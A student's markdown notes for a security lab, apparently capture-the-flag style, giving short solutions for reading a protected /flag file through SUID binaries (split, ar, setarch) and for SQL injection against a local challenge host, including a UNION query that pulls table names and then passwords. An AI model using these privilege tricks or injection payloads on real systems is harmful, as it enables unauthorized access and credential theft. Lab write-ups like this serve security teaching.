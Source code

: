 # Lab 2

## SUID Exploitation

* Level 16

'''bash
split /flag

cat xaa
'''


* Level 21 

'''bash
ar r inter /flag

cat inter
'''
* Level 30 

'''bash
setarch --uname-2.6 cat /flag
'''
## SQLi 

* Level 3 
'''python 
import requests 

URL = "http://challenge.localhost:80/?user=1" 

r = requests.get(url = URL) 

print(r.content)
'''

* Level 4
'''python
import requests 

form = { "username" : 'flag" --', "password" : "idk", } 

response = requests.post("http://challenge.localhost/", data=form) 

print(response,"\n",response.text)
'''

* Level 6

'''python
import requests 

params = {"query": '" UNION SELECT tbl_name from sqlite_master --'} 

response = requests.post("http://challenge.localhost/", params=params) 

t_name = response.text.strip()

params = {"query": f'" UNION SELECT password from {t_name} --' }

response = requests.post("http://challenge.localhost/", params=params) 

print(response.text.strip())
'''
